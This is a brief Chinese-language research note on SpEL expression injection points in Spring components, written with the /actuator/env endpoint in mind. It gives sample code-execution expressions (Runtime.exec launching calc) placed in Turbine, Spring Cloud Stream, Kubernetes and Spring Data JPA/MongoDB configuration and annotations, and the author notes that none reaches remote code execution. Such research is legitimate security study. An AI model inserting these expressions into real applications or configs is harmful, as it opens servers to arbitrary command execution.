 # Spel research

​	Spel的应用场景总结下来就是：配置与注解。尤其在配置中，常处于application.yml这样的地方。由于/actuator/env能够设置环境变量，因此便有了研究的想法。但是以下都不能达到远程RCE的效果，但是可作为思路提供参考。（其他组件依赖存在，暂无法提供）

研究的情况主要有以下组件，其他也挖掘寻找了，但感觉与其下大同小异:

+ spring-cloud-starter-netflix-turbine
+ spring-cloud-stream
+ Spring-cloud-kubernetes
+ Spring-data-jpa

+ Spring-data-mongodb

## spring-cloud-starter-netflix-turbine(application.yml)

```
turbine.cluster-name-expression="T(Runtime).getRuntime().exec('calc')"
```

## spring-cloud-stream(注解)

```
@StreamListener(value = Sink.INPUT, condition = "T(Runtime).getRuntime().exec('calc')")
```

## Spring-cloud-kubernetes(application.yml)

```
spring.cloud.kubernetes.discovery.filter=T(Runtime).getRuntime().exec('')
```

## Spring-data-jpa(注解)

```
@Query(value="select * from user where id = ?#{T(Runtime).getRuntime().exec('')}", nativeQuery=true)
```

## spring-data-mongodb(注解)

```
@Query(":#{?0}")
User getDataInfo(String info);
```

